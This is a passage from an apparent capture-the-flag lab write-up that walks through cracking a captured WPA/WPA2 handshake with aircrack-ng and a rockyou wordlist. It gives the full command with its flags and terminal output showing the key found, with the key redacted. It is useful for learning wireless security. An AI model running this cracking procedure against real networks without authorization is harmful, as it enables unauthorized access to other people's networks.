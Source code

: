 In the second terminal, we can use the capturedÂ WPAÂ handshake to attempt to crack theÂ WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamousÂ `rockyou.txt`Â wordlist has already been provided for us to use. This is located in theÂ `/home/glitch/`Â directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The commandÂ `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`Â will do this for us where theÂ `-a 2`Â flag indicates theÂ WPA/WPA2 attack mode. TheÂ `-b`Â indicates the BSSID of the access point, and theÂ `-w`Â flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.

![Pasted image 20241211123623.png](../../IMAGES/Pasted%20image%2020241211123623.png)

Terminal

```shell-session
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]


      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```
